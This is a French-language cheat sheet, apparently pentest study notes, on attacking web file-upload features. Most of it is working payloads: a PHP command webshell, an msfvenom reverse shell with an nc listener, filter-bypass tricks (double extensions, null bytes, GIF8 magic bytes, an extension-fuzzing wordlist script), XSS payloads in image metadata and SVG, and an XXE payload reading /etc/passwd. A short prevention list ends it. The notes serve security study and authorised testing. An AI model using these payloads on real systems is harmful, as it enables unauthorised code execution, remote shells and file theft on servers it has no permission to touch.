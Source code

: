 # File Upload Attack

----

- ###### Étape 1 : Identifier le framework ou l'environnement

- ###### Étape 2 : Uploader le fichier correspondant avec le bon spcript 

- ###### Étape 3 : se rendre sur le lien ou écouter le port de l'application

-----
## Comment Uploader :

##### Quelques scripts ( PHP )

* ###### Avoir le Hostname 
  ```php
    <?php system('hostname'); ?>
  ```
* ######  Creer un webshell custom en php
  ```php
    <?php system($_REQUEST['cmd']); ?>
  ```
  * **Pour communiquer avec le webshell, on utilise :**
    ```
     <www.linkToFile.php>?cmd=<maCommande>
    ```
* ###### Autres webshell en php
  - [phpbash ( bash avec UI )](https://github.com/Arrexel/phpbash)
  - web shells in Seclist ( Seclists/Webshells) 

* ###### Revese Shell
  **Avec msfvenom**
    ```php
    msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
    ```
  **Autres reverse shell php**


  - **Communiquer avec le reverse shell**
    ```bash
     # upload file, then
     nc -lvnp OUR_PORT
     # go to the link of the file in parallel
    ```

  - Payload All The things > Upload Insecure Files 
  - Seclists
-----

### Cas particulier :
  #### Dans le cas d'une image sécurisé :
  ###### Méthode 1 : 
  - **Changer le Content-Type + supprimer toute fonction front de validation**
  ###### Méthode 2 : cas de blacklist  
  * [ ] _sur windows, les extensions de fichier sont insensible à la casse donc on peut bypasser la blacklist avec **pHp** au lieu de **.php**_ 
  
  * [ ] on peut essayer le **fuzzing** de l'extension du fichier lors de l'upload ( burp intruder )  avec le dictionnaire  >> extensions utilisables ou non
    * **Web-extensions de Seclists**
    * **Payload all the things >> upload insecure file**
    * _Steps_ :
      - Aller dans burp suite intruder 
      - Desactiver l'encodage url dans payload
      - charger le dictionnaire ou selectionner un disponible 
      - start Attack
      - regarder les résultats -> fichiers blacklisté / non blacklisté

  ###### Méthode 3 : cas de whitelist
  * [ ] _la whitelist n'autaurise qu'un certain type de fichier, ainsi, on utilise la méthode de la blacklist pour connaître les extensions autorisés_
  - **Pour bypasser la whitelist, on peut utiliser la méthode de la double extension ex : shell.php -> shell.php.png ou shell.php%00.png**
      - payload all the thing upload tricks
      - PayloadsAllTheThings/Upload Insecure Files/Extension PHP
/extensions.lst
      - character injection ( chaque caractère à un contexte précis)

      - **script**
        ```shell
          # script pour generer une wordlist avec des extensions pour bypass whitelist
          for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
          done
        ```
      - **fuzzing character injection** ( for the get and the post in order to see the the correct file name)

  ###### Méthode 4 : file content validation
  * [ ] _utiliser fuzzing content type avec Seclist worlist content type_
  ###### Méthode 5 : MIME-Type. Multipurpose Internet Mail Extensions (MIME) Validation
  * [ ] _validation à travers le format par byte de la data ( file signature, magic bytes ..)_
      * **Pour le bypass, on peut simuler la signature d'un fichier gif avec GIF8**
      ```bash
        # filename="moncode.php" ...
        GIF8
        <monCode>
      ```
      * **puis utiliser le fuzzing et les autres méthodes combiné pour upload et ensuite get ( burp intruder )**
  ###### Méthode 6 : validation plus sécurisé
  * [ ] _Dans le cas des upload ( HTML, JS, SVG, GIF ): on peut faire une XSS_
    ```bash
      # pour l'image

      exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
      
      # pour l'xml
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
      <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
          <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
          <script type="text/javascript">alert("window.origin");</script>
      </svg>
    ```
  
  * [ ] _Pour un : XML, SVG, PDF, PPT, DOC , une injection XXE est possible_
    ```bash
      # injection xxe
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
      <svg>&xxe;</svg>
      # [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ] 
      # pour charger index.php
    ```

    * [ ] _Creation d'un programme de DoS (Zip, PNG, JPG) avec XXE, ( zip bomb, pixel flood) ou encore un SSRF ou file transversal attack_

-----
### Autres attaques de file upload :

*  Infection dans le nom du fichier 
*  Upload Directory Disclosure
*  Windows-specific Attacks
*  Advanced file upload Attacks ( bug bounty eports and CVE)

-----
### PREVENTION

* générer des noms de fichier aléatoire
* mettre les fichiers uploadé sur un autre serveur
* creer une blacklist et une whitelist
* content-type validation
* cacher le repertoire / lien pour upload
* limiter la taille des fichiers
* faire des mises à jour
* scan anti malware
* firewall pour web app ( WAF)
* 

-----
## Ressources

###### [Port Swigger Academy](https://portswigger.net/web-security/file-upload)

###### [YesWeHack Blog](https://blog.yeswehack.com/yeswerhackers/file-upload-attacks-part-2/)
  
###### [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

###### [_synactiv_](https://www.synacktiv.com/en/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there)

###### [_file signature ( magic bytes )_](https://en.wikipedia.org/wiki/List_of_file_signatures)

###### _intruder payloads_